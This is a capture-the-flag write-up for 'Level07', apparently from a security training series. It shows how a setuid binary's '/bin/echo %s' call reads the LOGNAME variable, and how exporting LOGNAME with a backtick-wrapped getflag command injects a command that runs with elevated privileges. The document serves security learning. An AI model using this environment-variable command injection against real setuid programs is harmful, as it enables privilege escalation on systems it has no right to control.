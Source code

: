# Level07

## Exploring the computer

```bash 
$ ls -la
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

We have an executable. Since we can execute the level07 let's try it.

## Inspecting the files

```bash 
$ ./level07 
level07
```

Okay so the executable displays something, probably with echo or ls. 

```bash 
$ file level07 
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

I thought about creating a custom 'echo' and adding it to the PATH like level03 but it wasn't that. 
Instead let's look if the echo is done in any particular way. 

```bash 
$ strings level07 
[...]
LOGNAME
/bin/echo %s 
[...]
```

Okay so we see that the echo depends on an env variable. 

```bash 
$ env | grep LOGNAME 
LOGNAME=level07
```
## Getting the flag

Same principle as before we are going to inject getflag as a variable. 

```bash 
$ export LOGNAME=\`getflag\`
```

Check if it worked correctly 

```bash 
$ env | grep LOGNAME 
LOGNAME=`getflag`
```

And let's execute the script

```bash 
$ ./level07 
Check flag.Here is your token : **********
```
